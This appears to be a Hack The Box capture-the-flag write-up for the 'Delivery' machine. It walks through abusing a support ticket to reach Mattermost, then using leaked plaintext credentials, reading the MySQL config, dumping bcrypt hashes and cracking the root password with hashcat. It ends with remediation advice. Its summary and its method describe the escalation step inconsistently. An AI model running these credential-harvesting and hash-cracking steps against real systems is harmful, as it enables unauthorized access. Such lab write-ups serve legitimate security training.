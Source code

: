 # Delivery HTB Write up
# 2021

## Overview - Hack The Box: Delivery

### Disclaimer
The Hack the Box's ToC states `"Dont share how you hacked each machine with other members. This includes the invite code generation and all challenges."` This write up is intended as a practice exercise for ethical bounty disclosure and technical writing review. If this write up is found outside of my portfolio or re-hosted as a solutions key before the *delivery* box has been retired, please alert the page admin.

### Threat
The *root* login on the target is vulnerable and was exploited. This places all data stored on the server at critical risk, which has been confirmed. Additionally, any assets within the organization with similar user/passwords or root passwords is at risk.

### Summary
By accessing the delivery website and initiating a support ticket, full access to the Mattersmost database can be gained. There is a plaintext login and password stored in the Mattersmost management, which leads to FTP access of the user *maildeliverer*. A priveledge escalation exploit from this user can give full administrator access to all server files. This escalation is leveraged by locating a plain text password from a priveledged user in a log file. 

The CVSS for this exploit is:
`AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H/E:H/RL:O/RC:C/CR:H/IR:H/AR:H/MAV:N/MAC:L/MPR:N/MUI:N/MS:C/MC:H/MI:H/MA:H`


### Methodology
The IP address given for the *delivery* box is `10.10.10.222`. 

The results of a basic network scan yielded:
```
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    nginx 1.14.2
8065/tcp open  unknown
```
No relavant information was revealed by a `whatweb` or `dirbuster` scan.

The website hosted at port 80 is *delivery.com*. By clicking on the **Helpdesk** link, a Support Center option is available. This is the first, unsecured system. The attacker can open a new ticket and provide fake credentials (emai and name). By doing so, this creates not only a ticket in the **Mattermost** system, but it also creates the `$ticketnumber@delivery.htb` email in the host's email system. 

The attacker can log into the the **View ticket** system with the originally supplied email and the ticket number. With the `$ticketnumber@delivery.htb` email, the attacker is able to go to the **Mattermost** page (`www.delivery.com:8065`) make a new account linked to the `delivery.htb` url by providing the `$ticketnumber@delivery.htb` as the main email.

Logging into the **View ticket** system again will allow the attacker to see the successful registration conformation link and activate the **Mattermost** account.

In the **Mattermost** system, the attacker is able to see a note from the administrator stating the ssh login for the server is `maildeliverer:Youve_G0t_Mail!` With this information, the attacker has basic credentials. There is also the note from the root user:
```
Also please create a program to help us stop re-using the same passwords everywhere... Especially those that are a variant of "PleaseSubscribe!"
PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.
```


__Reference 1__ shows all of the registered users and their respective permission groups. The `mysql` and `mattermost` users are the most likely targets for misconfiguration. With a simple search (__Reference 2__), the attacker is able to find the `/opt/mattermost/config/config.json` file, which inclues credentials for the mysql user `mmuser:Crack_The_MM_Admin_PW`.

Next, logging into the mysql database `mysql -u mmuser -D mattermost -p` and passing it the password above, the attacker is able to dump all hashed passwords for the Mattermost database (__Reference 3__). With this information and the note left by the `root` user in the **Mattermost** GUI, we can attack the hash with hashcat to find the password with a wordlist build around `PleaseSubscribe!`. This results in the `root:PleaseSubscribe!21` password.

### Suggested Resolution 

- Remove the usernames and passwords listed in the Mattermost GUI
- Do not auto-generate a local-domain email when creating a help ticket as a guest
- Require ssh-key login to the server
- Remove the plain-text username and password from the config.json file.
- Restrict hashed password access from the mmuser mysql account.


### References

#### Reference 1
```
maildeliverer@Delivery:/etc$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
avahi:x:106:115:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:107:116::/var/lib/saned:/usr/sbin/nologin
colord:x:108:117:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:109:7:HPLIP system user,,,:/var/run/hplip:/bin/false
maildeliverer:x:1000:1000:MailDeliverer,,,:/home/maildeliverer:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:110:118:MySQL Server,,,:/nonexistent:/bin/false
mattermost:x:998:998::/home/mattermost:/bin/sh
```
#### Reference 2
```
maildeliverer@Delivery:/opt/mattermost/config$ find / -type d -name "mattermost" -print 2>/dev/null
/opt/mattermost
/var/lib/mysql/mattermost
```
#### Reference 3
```
SHOW TABLES;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
| Audits                 |
| Bots                   |
| ChannelMemberHistory   |
| ChannelMembers         |
| Channels               |
| ClusterDiscovery       |
| CommandWebhooks        |
| Commands               |
| Compliances            |
| Emoji                  |
| FileInfo               |
| GroupChannels          |
| GroupMembers           |
| GroupTeams             |
| IncomingWebhooks       |
| Jobs                   |
| Licenses               |
| LinkMetadata           |
| OAuthAccessData        |
| OAuthApps              |
| OAuthAuthData          |
| OutgoingWebhooks       |
| PluginKeyValueStore    |
| Posts                  |
| Preferences            |
| ProductNoticeViewState |
| PublicChannels         |
| Reactions              |
| Roles                  |
| Schemes                |
| Sessions               |
| SidebarCategories      |
| SidebarChannels        |
| Status                 |
| Systems                |
| TeamMembers            |
| Teams                  |
| TermsOfService         |
| ThreadMemberships      |
| Threads                |
| Tokens                 |
| UploadSessions         |
| UserAccessTokens       |
| UserGroups             |
| UserTermsOfService     |
| Users                  |
+------------------------+

SELECT Username, Password FROM Users;

+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| test                             | $2a$10$YCgSpsEVZyCOoKfoOT7AN.Rf8f.JozKIS84x4D1zYsb.w0m7NdsNi |
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |
| user                             | $2a$10$Z7dGMIYCbv5Kz6syMZ6v6eWgI7LkPixqW9X/qiN2ew.3P435uohDa |
| channelexport                    |                                                              |
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |
| admin                            | $2a$10$IUl7EUnL6OhbVHic0kLv/eLydJPuXWJYotPi/CABeLJ8/UhbX.Mla |
+----------------------------------+--------------------------------------------------------------+
```
#### Reference 4
```
hashcat -m 3200 -r 0 passwd wordlist
```
